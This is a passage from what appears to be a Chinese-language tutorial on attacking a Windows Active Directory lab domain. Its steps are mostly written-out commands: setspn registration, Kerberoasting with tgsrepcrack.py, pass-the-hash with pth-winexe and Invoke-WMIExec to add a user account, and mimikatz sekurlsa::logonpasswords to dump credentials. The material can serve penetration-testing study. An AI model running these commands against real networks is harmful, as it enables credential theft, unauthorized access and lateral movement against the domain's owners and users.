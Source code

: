破解结果如下：

![](https://p408.ssl.qhimgs4.com/t0101dbfc9d352e075a.png)

**SPN票据破解**

**SPN注册**

使用域管理员登陆后，手动注册默认实例： setspn -A MSSQLSvc/school.com:1433 school\linghuchong

如果SQL Server运行在 Local System 账户下，则需要将spn注册在相应服务器的计算机账户下： setspn -S MSSQLSvc/School-Server.school.com:1433 School-Server

**SPN破解**

列出当前用户的票据：

![](https://p408.ssl.qhimgs4.com/t01d4f02705c6b67795.png)

导出票据：

![](https://p408.ssl.qhimgs4.com/t01a125b59d10056f38.png)

**由于加密类型是RC4\_HMAC\_MD5，Kerberos协议第四步TGS-REP将会返回用服务帐户的NTLM密码哈希加密的票据。**

使用字典进行暴力破解：

```text
python tgsrepcrack.py 2.txt "1-40a10000-linghuchong@MSSQLSvc~College-DS1~1433-COLLEGE.COM.kirbi"
```

![](https://p408.ssl.qhimgs4.com/t012ce1143b61d5f3a3.png)

**Pass-The-Hash**

**kali**

```text
pth-winexe -U Administrator%AAD3B435B51404EEAAD3B435B51404EE:7c70a81c7c5882c24298d391fd397885 //192.168.111.150 cmd
```

**Powershell**

```text
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target 192.168.111.150 -Domain TESTDOMAIN -Username Administrator -Hash 7C70A81C7C5882C24298D391FD397885 -Command "net user test123 360College /add" -verbose
```

**Pass-The-Hash（Pass-the-key）**

**虽然"sekurlsa::pth"在mimikatz中被称之为"Pass The Hash",但是其已经超越了以前的"Pass The Hash"，部分人将其命名为"Overpass-the-hash"，也就是"Pass-the-key"**

**登录域成员机器，以管理员身份运行mimikatz，并输入以下命令：**

```text
 privilege::debug 
 log
 sekurlsa::logonpasswords
```
